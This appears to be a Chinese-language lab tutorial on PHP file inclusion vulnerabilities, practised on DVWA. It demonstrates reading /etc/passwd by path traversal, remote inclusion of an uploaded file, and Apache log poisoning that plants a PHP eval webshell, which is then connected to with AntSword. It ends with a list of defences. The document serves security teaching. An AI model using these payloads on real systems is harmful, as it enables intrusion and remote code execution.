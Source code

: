```yaml
---
slug: /net-security/08/03
---
```


文件包含漏洞，即引入依赖文件导致的漏洞。开发者习惯将重复的代码、功能封装在一个文件里，然后另外的开发者可以包含该文件，然后执行调用该功能，该过程叫做文件包含。而开发者为了灵活性，将包含的文件设置为变量，去动态加载文件，该动态过程可以被利用而造成文件包含漏洞。



## 分类

1. 本地包含：包含**服务所在的服务器**上的文件
2. 远程包含：包含非服务所在的服务器上的**第三方服务器**的文件



## PHP 包含函数

1. `include()`：包含错误抛出警告，程序继续执行
2. `require()`：包含发生错误直接终止程序运行
3. `include_once()`：同 `include()`，不过文件只会被包含一次
4. `require_once()`：同 `require`，不过文件只会被包含一次



## 本地包含

将 DVWA 的 Level 设置为 low，然后访问 File inclusion，该 URL 上路径改为 `/etc/passwd`

![](https://img.wukaipeng.com/2023/10/29-080141-image-20231029080141030.png)

![](https://img.wukaipeng.com/2023/10/29-080004-image-20231029080004210.png)

也可以用相对路径，主要是用 `../` ，只要 `../` 足够多就能够达到根目录，比如：

![](https://img.wukaipeng.com/2023/10/29-081341-image-20231029081341367.png)

![](https://img.wukaipeng.com/2023/10/29-090454-image-20231029090454002.png)

## 远程包含

在 upload-labs 上传  `info.php`，内容为 `<?php phpinfo(); ?>`

得到上传后的链接，然后在 DVWA 中访问：

![](https://img.wukaipeng.com/2023/10/29-131155-image-20231029131155050.png)

## 中间件日志包含

日志文件中有包含请求的信息，因此可以利用日志文件。

首先我们要在日志文件中写入恶意代码：

为了方便测试，先给文件加上权限：

```bash
chmod 755 /var/log/apache2/
chmod 644 /var/log/apache2/access.log 
```

![](https://img.wukaipeng.com/2023/11/02-082740-image-20231102082740133.png)

接着访问 `http://YOUR_ID_ADDRESS:PORT/vulnerabilities/fi/?page=<?php phpinfo();?>`

注意 `<?php phpinfo();?>` 会被 URL 编码，利用 Burp 改回原来：

![](https://img.wukaipeng.com/2023/11/02-083059-image-20231102083059811.png)

`cat /var/log/apache2/access.log` 查看日志文件，可以看到代码已经写入：

![](https://img.wukaipeng.com/2023/11/02-083240-image-20231102083240820.png)



访问该日志文件即可执行代码 `http://YOUR_IP_ADDRESS:PORT/vulnerabilities/fi/?page=/var/log/apache2/access.log`：

![](https://img.wukaipeng.com/2023/11/02-083337-image-20231102083337221.png)

同样的方式我们使用 POST，访问 `http://YOUR_ID_ADDRESS:PORT/vulnerabilities/fi/?page=<?php eval(@$_POST['cmd']);?>`

然后打开蚁剑，注意要添加 Cookie：

![](https://img.wukaipeng.com/2023/11/02-092857-image-20231102092856996.png)

连接：

![](https://img.wukaipeng.com/2023/11/02-092910-image-20231102092910096.png)

![](https://img.wukaipeng.com/2023/11/02-093006-image-20231102093006471.png)

## 防御

1️⃣ 设置白名单

2️⃣ 过滤危险字符

3️⃣ 设置文件目录权限

4️⃣ 关闭危险设置（非必要不设置 `allow_url_include` 和 `allow_url_fopen`）

5️⃣ 严格检查 `include` 类的文件包含函数中的参数是否外界可控





